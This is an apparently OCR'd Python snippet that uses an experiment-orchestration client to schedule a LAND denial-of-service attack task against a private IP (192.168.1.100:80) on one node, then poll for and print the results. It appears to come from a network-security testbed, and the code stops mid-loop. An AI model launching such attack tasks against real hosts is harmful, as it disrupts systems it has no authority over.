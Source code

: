 ```python

# Pipeline Creation
pipeline = Pipeline()
land_task = LANDAttack(target_ip="192.168.1.100", source_port=1337, destination_port=80)
pipeline.then(land_task)

# Node Selection
node_pool = client.get_nodes()
working_nodes = node_pool.take(1)

# Experiment Object and Definition
experiment = Experiment()
experiment.environment_definition = ShellExecution()
experiment.map(pipeline, working_nodes)

# Experiment Naming and Cleanup
experiment_name = "land_attack_experiment"
try:
    client.delete_experiment(experiment_name)
    print(f"Successfully deleted pre-existing experiment: {experiment_name}")
except RemoteClientException as e:
    print(f"Info: Could not delete experiment {experiment_name} (may not exist or already deleted): {e}")
except Exception as e:
    print(f"Warning: An unexpected error occurred while trying to delete experiment {experiment_name}: {e}")

# Prepare the experiment
client.prepare_experiment(experiment, experiment_name)

# Poll for READY status
print(f"Experiment {experiment_name} prepared. Waiting for readiness...")
while True:
    status = client.get_experiment_status(experiment_name).status
    print(f"Current status: {status}")
    if status == ExperimentStatus.READY:
        print("Experiment is READY.")
        break
    time.sleep(10)  # Poll every 10 seconds

# Start the experiment execution
client.start_execution(experiment_name)

# Wait for the experiment to complete
print(f"Experiment {experiment_name} started. Waiting for completion...")
while True:
    status = client.get_experiment_status(experiment_name).status
    print(f"Current status: {status}")
    if status != ExperimentStatus.RUNNING:
        break
    time.sleep(20)  # Poll every 20 seconds

# Retrieve and print results if FINISHED
final_status_info = client.get_experiment_status(experiment_name)
if final_status_info.status == ExperimentStatus.FINISHED:
    results = final_status_info.execution_result
    print(f"Experiment results: {results}")
    if results:
        for report in results:
            print(f"Node name: {report.node.name}")
            print(f"Error: {report.error}")

            result, log = report.result
```